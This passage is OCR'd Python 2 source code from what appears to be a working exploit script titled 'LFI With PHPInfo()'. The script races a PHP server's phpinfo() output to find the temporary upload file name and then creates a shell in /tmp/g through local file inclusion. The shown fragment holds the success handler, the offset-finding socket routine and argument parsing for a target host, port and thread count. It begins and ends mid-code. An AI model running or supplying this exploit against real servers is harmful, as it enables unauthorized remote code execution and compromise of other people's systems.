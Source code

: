 ```python
            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    print x
                    self.event.set()
                    
            except socket.error:
                return
    

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
```